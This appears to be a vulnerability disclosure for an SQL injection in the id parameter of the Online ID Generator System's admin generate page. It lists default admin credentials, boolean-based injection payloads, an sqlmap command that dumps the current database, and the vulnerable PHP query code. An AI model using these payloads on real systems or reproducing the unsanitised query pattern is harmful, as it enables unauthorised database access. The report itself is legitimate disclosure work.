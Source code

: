 # [Online ID Generator System-SQL Injection-generate/index.php-id]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/id_generator/admin/?page=generate/index&id=1`    

**[Vulnerability Location]:** id_generator/admin/generate/index.php

**[Vulnerability Test]:**

1. When you enter `1' and '1'='1` in the `id` parameter, the page displays as follows:

   ![](../../img/20240623005003.png)

   

2. When you enter `1' and '1'='2` in the `id` parameter, the page displays as follows:

   ![](../../img/20240623005100.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/id_generator/admin/?page=generate/index&id=1" -p "id" --cookie="PHPSESSID=c6ikif3reuhfclaa66bo04s2sj" --current-db
   ```

   ![](../../img/20240623005402.png)

**[code analysis]:**

id_generator/admin/generate/index.php

```php
<?php 
    if(isset($_GET['template'])){
        $qry = $conn->query("SELECT * FROM `id_format` where id = '{$_GET['template']}' ");
        foreach($qry->fetch_assoc() as $k => $v){
            $$k = $v;
        }
    }
    if(isset($_GET['id'])){
        $qry = $conn->query("SELECT * FROM `generated_id` where id = '{$_GET['id']}' ");
        foreach($qry->fetch_assoc() as $k => $v){
            $meta[$k] = $v;
        }
    }
?>
```

The GET parameter `id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.